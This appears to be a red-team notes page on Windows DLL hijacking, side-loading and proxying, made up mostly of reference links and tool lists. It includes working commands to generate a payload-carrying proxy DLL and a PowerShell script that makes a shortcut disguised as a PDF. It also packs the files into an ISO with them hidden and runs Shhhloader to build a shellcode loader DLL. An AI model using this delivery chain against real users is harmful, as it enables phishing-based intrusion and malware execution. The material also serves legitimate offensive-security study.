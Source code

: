 ```yaml
---
description: DLL Hijacking / DLL Side-Loading / DLL Proxying
---
```


# DLL Hijacking

- [https://hijacklibs.net/](https://hijacklibs.net/)
- [https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads](https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads)
- [https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/](https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/)
- [https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/](https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/)
- [https://besteffortteam.it/onedrive-and-teams-dll-hijacking/](https://besteffortteam.it/onedrive-and-teams-dll-hijacking/)
- [https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/](https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/)
- [https://xss.is/threads/67021/](https://xss.is/threads/67021/)
- [https://xss.is/threads/67718/](https://xss.is/threads/67718/)
- [https://www.r-tec.net/r-tec-blog-dll-sideloading.html](https://www.r-tec.net/r-tec-blog-dll-sideloading.html)

{% embed url="https://youtu.be/3eROsG_WNpE" %}

Print debug output from a DLL:

```c
#ifdef _DEBUG
#include <stdio.h>
#include <string.h>
#define __FILENAME__ (strrchr(__FILE__, '\\') ? strrchr(__FILE__, '\\') + 1 : __FILE__)
#define DPRINT(...) { \
  fprintf(stderr, "DEBUG: %s:%d:%s(): ", __FILENAME__, __LINE__, __FUNCTION__); \
  fprintf(stderr, __VA_ARGS__); \
}
#else
#define DPRINT(...)
#endif
```




## DLL Side-Loading with ISO Packing

- [https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)
- [https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/](https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/)
- [https://github.com/ChoiSG/OneDriveUpdaterSideloading](https://github.com/ChoiSG/OneDriveUpdaterSideloading)

Generate a proxy DLL with [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy):

```
Cmd > SharpDllProxy.exe --dll C:\Windows\System32\version.dll --payload OneDrive.Update
Cmd > move output_version\tmp1F94.dll C:\out\vresion.dll
```

Create a malicious link (also [here](https://gist.github.com/mttaggart/eb2ba020b8816cfe3da4cfd835240b7d)):

```powershell
$obj = New-object -ComObject wscript.shell
$link = $obj.createshortcut("C:\Tools\PackMyPayload\out\clickme.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" # PDF ico
$link.arguments = "/c start update.exe & ""%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe"" %cd%/fake.pdf"
$link.save()
```

Pack all the files into an ISO with [PackMyPayload](https://github.com/mgeeky/PackMyPayload):

```
PS > python .\PackMyPayload.py .\out\ .\out\a.iso --out-format iso --hide OneDriveStandaloneUpdater.exe,vresion.dll,version.dll,fake.pdf
```




## Unlock DllMain

- [https://elliotonsecurity.com/perfect-dll-hijacking/](https://elliotonsecurity.com/perfect-dll-hijacking/)
- [https://github.com/ElliotKillick/LdrLockLiberator](https://github.com/ElliotKillick/LdrLockLiberator)
- [https://elliotonsecurity.com/what-is-loader-lock/](https://elliotonsecurity.com/what-is-loader-lock/)
- [https://habr.com/ru/articles/792424/](https://habr.com/ru/articles/792424/)




## CVE-2025-24076, CVE-2025-24994

- [https://blog.compass-security.com/2025/04/3-milliseconds-to-admin-mastering-dll-hijacking-and-hooking-to-win-the-race-cve-2025-24076-and-cve-2025-24994/](https://blog.compass-security.com/2025/04/3-milliseconds-to-admin-mastering-dll-hijacking-and-hooking-to-win-the-race-cve-2025-24076-and-cve-2025-24994/)




## Tools

- [https://github.com/monoxgas/Koppeling](https://github.com/monoxgas/Koppeling)



### DLL Proxying

- [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)
- [https://github.com/tothi/dll-hijack-by-proxying](https://github.com/tothi/dll-hijack-by-proxying)
- [https://github.com/kagasu/ProxyDllGenerator](https://github.com/kagasu/ProxyDllGenerator)
- [https://github.com/namazso/dll-proxy-generator](https://github.com/namazso/dll-proxy-generator)
- [https://github.com/mrexodia/perfect-dll-proxy](https://github.com/mrexodia/perfect-dll-proxy)



### Shhhloader

- [https://github.com/icyguider/Shhhloader](https://github.com/icyguider/Shhhloader)

```
$ ./Shhhloader.py -p RuntimeBroker.exe -d -dp vresion.dll -o version.dll -s domain -sa megacorp.local shellcode.bin
```
